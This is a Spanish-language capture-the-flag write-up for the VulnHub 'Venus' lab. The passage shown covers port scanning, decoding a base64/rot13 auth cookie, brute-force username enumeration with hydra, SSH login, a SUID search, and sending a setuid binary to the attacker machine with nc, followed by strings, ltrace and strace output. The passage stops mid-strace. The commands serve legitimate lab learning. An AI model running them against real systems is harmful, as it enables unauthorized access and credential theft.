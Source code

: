 # Venus

https://www.vulnhub.com/entry/the-planets-venus,705/

## 1. Enumeración

IP Atacante: 10.0.12.25
IP Victima: 10.0.12.26

## 2. Servicios

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.5 (protocol 2.0)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.9.5
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=2/20%Time=67B74D38%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,363,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2020\x20Feb\x
SF:202025\x2015:41:44\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.9
SF:\.5\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Options:
SF:\x20DENY\r\nContent-Length:\x20626\r\nX-Content-Type-Options:\x20nosnif
SF:f\r\nReferrer-Policy:\x20same-origin\r\n\r\n<html>\n<head>\n<title>Venu
SF:s\x20Monitoring\x20Login</title>\n<style>\n\.aligncenter\x20{\n\x20\x20
SF:\x20\x20text-align:\x20center;\n}\nlabel\x20{\n\x20\x20\x20\x20display:
SF:block;\n\x20\x20\x20\x20position:relative;\n}\n</style>\n</head>\n<body
SF:>\n<h1>\x20Venus\x20Monitoring\x20Login\x20</h1>\n<h2>Please\x20login:\
SF:x20</h2>\nCredentials\x20guest:guest\x20can\x20be\x20used\x20to\x20acce
SF:ss\x20the\x20guest\x20account\.\n<form\x20action=\"/\"\x20method=\"post
SF:\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x20\x20<label\x20for=\"usernam
SF:e\">Username:</label>\n\x20\x20\x20\x20<input\x20id=\"username\"\x20typ
SF:e=\"text\"\x20name=\"username\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x
SF:20\x20<label\x20for=\"password\">Password:</label>\n\x20\x20\x20\x20<in
SF:put\x20id=\"username\"\x20type=\"text\"\x20name=\"password\">\n\x20\x20
SF:\x20\x20<br\x20/>\n\x20\x20\x20\x20<input\x20type=\"submit\"\x20value=\
SF:"Login\">\n</form>\n\n</body>\n</html>\n")%r(HTTPOptions,363,"HTTP/1\.1
SF:\x20200\x20OK\r\nDate:\x20Thu,\x2020\x20Feb\x202025\x2015:41:44\x20GMT\
SF:r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.9\.5\r\nContent-Type:\x20te
SF:xt/html;\x20charset=utf-8\r\nX-Frame-Options:\x20DENY\r\nContent-Length
SF::\x20626\r\nX-Content-Type-Options:\x20nosniff\r\nReferrer-Policy:\x20s
SF:ame-origin\r\n\r\n<html>\n<head>\n<title>Venus\x20Monitoring\x20Login</
SF:title>\n<style>\n\.aligncenter\x20{\n\x20\x20\x20\x20text-align:\x20cen
SF:ter;\n}\nlabel\x20{\n\x20\x20\x20\x20display:block;\n\x20\x20\x20\x20po
SF:sition:relative;\n}\n</style>\n</head>\n<body>\n<h1>\x20Venus\x20Monito
SF:ring\x20Login\x20</h1>\n<h2>Please\x20login:\x20</h2>\nCredentials\x20g
SF:uest:guest\x20can\x20be\x20used\x20to\x20access\x20the\x20guest\x20acco
SF:unt\.\n<form\x20action=\"/\"\x20method=\"post\">\n\x20\x20\x20\x20<br\x
SF:20/>\n\x20\x20\x20\x20<label\x20for=\"username\">Username:</label>\n\x2
SF:0\x20\x20\x20<input\x20id=\"username\"\x20type=\"text\"\x20name=\"usern
SF:ame\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x20\x20<label\x20for=\"pass
SF:word\">Password:</label>\n\x20\x20\x20\x20<input\x20id=\"username\"\x20
SF:type=\"text\"\x20name=\"password\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x2
SF:0\x20\x20<input\x20type=\"submit\"\x20value=\"Login\">\n</form>\n\n</bo
SF:dy>\n</html>\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 190.10 seconds

## 3. Enumeración Web

Tenemos una pagina principal que nos pide credenciales para acceder, podemos usar `guest:guest`.
Dentro no hay gran cosa, pero obtenemos una cookie en b64 `auth:""Z3Vlc3Q6dGhyZmc=""` si lo descodificamos obtenemos `guest:thrfg`, sabiendo que las credenciales son `guest:guest` podemos asumir que la cookie es `guest:guest`, solo que cifrada usando `rot13`.

Lanzamos `dirb http://10.0.12.26:8080/` y encontramos la ruta `/admin` que nos lleva a un panel de login.

Para conseguir acceder al panel de admin, podemos usar `guest:guest` y en la cookie `auth` poner `admin:admin` cifrado en rot13.

Intentamos crear una cookie con el valor adecuado:

```
admin:admin > admin:nqzva > YWRtaW46bnF6dmE=
```

Pero no funciona :(

Deberemos buscar otra forma de acceder al panel de admin.

Vamos a intentar sacar usuarios con `hydra` usando la password por defecto `guest` y el mensaje de error que inyecta en la página cuando el usuario no es correcto, `Invalid username.`.

```
hydra -L ~/Descargas/usernames.txt -p guest -s 8080 10.0.12.26 http-post-form "/:username=^USER^&password=^PASS^:Invalid username."
```

Encontramos los siguientes usuarios:

```
[8080][http-post-form] host: 10.0.12.26   login: guest   password: guest
[8080][http-post-form] host: 10.0.12.26   login: magellan   password: guest
[8080][http-post-form] host: 10.0.12.26   login: venus   password: guest
```

Iniciamos sesion con `magellan:guest` y miramos su token: `"bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ=="` que descodificamos a `magellan:irahfvnatrbybtl1989`, tras pasar por rot13 tendriamos: `magellan:venusiangeology1989`.

Intentamos iniciar sesion ssh con las credenciales:

```
datadiego@~ ssh magellan@10.0.12.26 -p 22
magellan@10.0.12.26's password: 
Last failed login: Fri Feb 21 15:59:31 GMT 2025 from 10.0.12.25 on ssh:notty
There were 2 failed login attempts since the last successful login.
[magellan@venus ~]$ whoami
magellan
```

## 4. Escalada de privilegios

Volvemos a usar el comando de la anterior maquina de la serie `find / -perm -u=s -type f 2>/dev/null`

Encontramos varios binarios con permisos de setuid:

```
[magellan@venus ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/cockpit-session
```

Vamos a intentar usar `pkexec` para ejecutar comandos como root.

```bash
[magellan@venus ~]$ pkexec 
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ====
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: root
Password: 
polkit-agent-helper-1: pam_authenticate failed: Authentication failure
==== AUTHENTICATION FAILED ====
```

No podemos usar `pkexec` para ejecutar comandos como root.

Del resto de binarios, `cockpit-session` llama la atención, pero no podemos ejecutarlo, aun nos queda `polkit-agent-helper-1`.

```bash
[magellan@venus ~]$ /usr/lib/polkit-1/polkit-agent-helper-1
polkit-agent-helper-1: wrong number of arguments. This incident has been logged.
FAILURE
[magellan@venus ~]$ 
```

Parece que espera argumentos, si mandamos 1234, la consola se queda colgada.

Vamos a descargar el binario para analizarlo en nuestra maquina con nc:

En la maquina atacante:

```bash
datadiego@~ nc -lvp 8888 > polkit-agent-helper-1
Listening on 0.0.0.0 8888
```

En la maquina victima:

```
[magellan@venus polkit-1]$ cat polkit-agent-helper-1 | nc 10.0.12.25 8888
```

## Analisis del binario

### strings

```
/lib64/ld-linux-x86-64.so.2
&*iE
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
__cxa_finalize
__libc_start_main
g_strdup
strlen
stdout
__fprintf_chk
g_strescape
fputs
fputc
fflush
g_free
calloc
stdin
fgets
memset
__stack_chk_fail
__getdelim
g_strchomp
feof
perror
polkit_authority_get_sync
polkit_unix_user_new_for_name
polkit_authority_authentication_agent_response_sync
g_object_unref
g_printerr
g_error_free
stderr
fileno
fdatasync
usleep
pam_end
fwrite
setenv
geteuid
openlog
getuid
isatty
pam_start
pam_set_item
pam_authenticate
pam_acct_mgmt
pam_get_item
strcmp
__syslog_chk
g_strdup_printf
pam_strerror
libpam.so.0
libpolkit-gobject-1.so.0
libgobject-2.0.so.0
libglib-2.0.so.0
libc.so.6
__libc_csu_fini
flush_and_wait
_IO_stdin_used
__data_start
send_dbus_message
__libc_csu_init
__bss_start
read_cookie
_edata
_polkit_clearenv
LIBPAM_1.0
GLIBC_2.4
GLIBC_2.3.4
GLIBC_2.2.5
AVAUA
D$(1
toE1
D$(dH+
[]A\A]A^
u+UH
ATUSH
[]A\A]
AWHc
AVAUATI
[]A\A]A^A_
AUATI
[]A\A]A^
[]A\A]A^A_
PAM_PROMPT_ECHO_OFF
PAM_PROMPT_ECHO_ON
PAM_ERROR_MSG
PAM_TEXT_INFO
getline
Error getting authority: %s
/usr/sbin:/usr/bin:/sbin:/bin
PATH
polkit-agent-helper-1
polkit-1
SUCCESS
FAILURE
Error constructing identity: %s
polkit-agent-helper-1: error response to PolicyKit daemon: %s
polkit-agent-helper-1: needs to be setuid root
Incorrect permissions on %s (needs to be setuid root)
inappropriate use of helper, wrong number of arguments [uid=%d]
polkit-agent-helper-1: wrong number of arguments. This incident has been logged.
inappropriate use of helper, stdin is a tty [uid=%d]
polkit-agent-helper-1: inappropriate use of helper, stdin is a tty. This incident has been logged.
polkit-agent-helper-1: pam_start failed: %s
polkit-agent-helper-1: pam_set_item failed: %s
polkit-agent-helper-1: pam_authenticate failed: %s
polkit-agent-helper-1: pam_acct_mgmt failed: %s
polkit-agent-helper-1: pam_get_item failed: %s
polkit-agent-helper-1: Tried to auth user '%s' but we got auth for user '%s' instead
:*3$"
3g958
annobin gcc 11.0.0 20210116
running gcc 11.0.0 20210123
GA*FORTIFY
GA+GLIBCXX_ASSERTIONS
GA*GOW
GA*cf_protection
GA+omit_frame_pointer
GA+stack_clash
GA!stack_realign
GA*FORTIFY
GA+GLIBCXX_ASSERTIONS
GA*cf_protection
polkit-agent-helper-1-0.117-3.fc34.x86_64.debug
7zXZ
6F;$m
++iyk
A'_	!
hJ	B
x%Xq
tUQw\^U
sH}cHXqY
>rvH
Jm%itu
P4{@
{4$>Vw!
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.data.rel.ro
.dynamic
.got
.data
.bss
.gnu.build.attributes
.gnu_debuglink
.gnu_debugdata
```

### ltrace

```bash
datadiego@~ chmod +x polkit-agent-helper-1 
datadiego@~ ltrace ./polkit-agent-helper-1 
clearenv(1, 0x7fffb8736d98, 0x7fffb8736da8, 0) = 0
setenv("PATH", "/usr/sbin:/usr/bin:/sbin:/bin", 1) = 0
geteuid()                                      = 1000
fwrite("polkit-agent-helper-1: needs to "..., 1, 47, 0x745524e044e0polkit-agent-helper-1: needs to be setuid root
) = 47
g_strdup_printf(0x5f68f31c9160, 0x7fffb8738f63, 0, 47) = 0x5f690008c560
g_strdup(0x5f690008c560, 0x5f690008c560, 0, 0x5f690008c560) = 0x5f690008ef90
strlen("Incorrect permissions on ./polki"...)  = 74
__fprintf_chk(0x745524e045c0, 1, 0x5f68f31c9004, 0x5f68f31c902f) = 14
g_strescape(0x5f690008ef90, 0, 0, 0)           = 0x5f690008eff0
fputs("Incorrect permissions on ./polki"..., 0x745524e045c0) = 1
fputc('\n', 0x745524e045c0PAM_ERROR_MSG Incorrect permissions on ./polkit-agent-helper-1 (needs to be setuid root)
)                    = 10
fflush(0x745524e045c0)                         = 0
g_free(0x5f690008eff0, 0, 0x5f6900084530, 0x745524d1c574) = 18
g_free(0x5f690008ef90, 0x5f690008efe0, 0x5f690008e, 1) = 4
g_free(0x5f690008c560, 0x5f690008ef80, 0x5f690008e, 1) = 4
free(0)                                        = <void>
fwrite("FAILURE\n", 1, 8, 0x745524e045c0FAILURE
)      = 8
fflush(0x745524e045c0)                         = 0
fflush(0x745524e044e0)                         = 0
fileno(0x745524e045c0)                         = 1
fdatasync(1, 0, 0x745524e04563, 0)             = 0xffffffff
fileno(0x745524e044e0)                         = 2
fdatasync(2, 0, -120, 0x745524d1e754)          = 0xffffffff
usleep(100000)                                 = <void>
__cxa_finalize(0x5f68f31cac08, 26, 0, 0x7fffb8736ae0) = 1
+++ exited (status 1) +++
```

### strace

```bash
datadiego@~ strace ./polkit-agent-helper-1 | toclip 
execve("./polkit-agent-helper-1", ["./polkit-agent-helper-1"], 0x7fff72efad30 /* 52 vars */) = 0
brk(NULL)                               = 0x55c0819fe000
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f93fbe000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No existe el archivo o el directorio)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=88059, ...}) = 0
mmap(NULL, 88059, PROT_READ, MAP_PRIVATE, 3, 0) = 0x706f93fa8000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpam.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=67888, ...}) = 0
mmap(NULL, 65552, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93f97000
mmap(0x706f93f9a000, 36864, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f93f9a000
mmap(0x706f93fa3000, 12288, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xc000) = 0x706f93fa3000
mmap(0x706f93fa6000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xf000) = 0x706f93fa6000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpolkit-gobject-1.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=125000, ...}) = 0
mmap(NULL, 127360, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93f77000
mmap(0x706f93f7e000, 61440, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x7000) = 0x706f93f7e000
mmap(0x706f93f8d000, 32768, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x16000) = 0x706f93f8d000
mmap(0x706f93f95000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1d000) = 0x706f93f95000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgobject-2.0.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=399752, ...}) = 0
mmap(NULL, 404536, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93f14000
mmap(0x706f93f23000, 225280, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xf000) = 0x706f93f23000
mmap(0x706f93f5a000, 102400, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x46000) = 0x706f93f5a000
mmap(0x706f93f73000, 16384, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x5e000) = 0x706f93f73000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libglib-2.0.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=1343056, ...}) = 0
mmap(NULL, 1343952, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93dcb000
mmap(0x706f93de9000, 655360, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1e000) = 0x706f93de9000
mmap(0x706f93e89000, 557056, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xbe000) = 0x706f93e89000
mmap(0x706f93f11000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x146000) = 0x706f93f11000
mmap(0x706f93f13000, 464, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93f13000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\220\243\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
fstat(3, {st_mode=S_IFREG|0755, st_size=2125328, ...}) = 0
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
mmap(NULL, 2170256, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93a00000
mmap(0x706f93a28000, 1605632, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x28000) = 0x706f93a28000
mmap(0x706f93bb0000, 323584, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b0000) = 0x706f93bb0000
mmap(0x706f93bff000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1fe000) = 0x706f93bff000
mmap(0x706f93c05000, 52624, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93c05000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libaudit.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=133200, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f93dc9000
mmap(NULL, 184496, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93d9b000
mmap(0x706f93d9e000, 32768, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3000) = 0x706f93d9e000
mmap(0x706f93da6000, 86016, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xb000) = 0x706f93da6000
mmap(0x706f93dbb000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1f000) = 0x706f93dbb000
mmap(0x706f93dbd000, 45232, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93dbd000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgio-2.0.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=1887632, ...}) = 0
mmap(NULL, 1897376, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93830000
mmap(0x706f93869000, 1142784, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x39000) = 0x706f93869000
mmap(0x706f93980000, 479232, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x150000) = 0x706f93980000
mmap(0x706f939f5000, 36864, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1c4000) = 0x706f939f5000
mmap(0x706f939fe000, 5024, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f939fe000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libsystemd.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=910592, ...}) = 0
mmap(NULL, 915016, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93cbb000
mmap(0x706f93cd1000, 585728, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x16000) = 0x706f93cd1000
mmap(0x706f93d60000, 188416, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xa5000) = 0x706f93d60000
mmap(0x706f93d8e000, 49152, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xd2000) = 0x706f93d8e000
mmap(0x706f93d9a000, 1608, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x706f93d9a000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libffi.so.8", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=47672, ...}) = 0
mmap(NULL, 46608, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93caf000
mmap(0x706f93cb1000, 28672, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f93cb1000
mmap(0x706f93cb8000, 4096, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x9000) = 0x706f93cb8000
mmap(0x706f93cb9000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xa000) = 0x706f93cb9000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=952616, ...}) = 0
mmap(NULL, 950296, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93747000
mmap(0x706f93757000, 520192, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x10000) = 0x706f93757000
mmap(0x706f937d6000, 360448, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x8f000) = 0x706f937d6000
mmap(0x706f9382e000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0xe7000) = 0x706f9382e000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpcre2-8.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=625344, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x706f93cad000
mmap(NULL, 627472, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93c13000
mmap(0x706f93c15000, 450560, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f93c15000
mmap(0x706f93c83000, 163840, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x70000) = 0x706f93c83000
mmap(0x706f93cab000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x97000) = 0x706f93cab000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libcap-ng.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=26848, ...}) = 0
mmap(NULL, 28720, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f9373f000
mmap(0x706f93741000, 12288, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f93741000
mmap(0x706f93744000, 4096, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x5000) = 0x706f93744000
mmap(0x706f93745000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x5000) = 0x706f93745000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgmodule-2.0.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=22736, ...}) = 0
mmap(NULL, 24712, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f93738000
mmap(0x706f9373a000, 8192, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f9373a000
mmap(0x706f9373c000, 4096, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x4000) = 0x706f9373c000
mmap(0x706f9373d000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x4000) = 0x706f9373d000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libz.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=113000, ...}) = 0
mmap(NULL, 110744, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f9371c000
mmap(0x706f9371e000, 73728, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2000) = 0x706f9371e000
mmap(0x706f93730000, 24576, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x14000) = 0x706f93730000
mmap(0x706f93736000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a000) = 0x706f93736000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libmount.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\0\0\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0644, st_size=309960, ...}) = 0
mmap(NULL, 311896, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x706f936cf000
mmap(0x706f936d8000, 212992, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x9000) = 0x706f936d8000
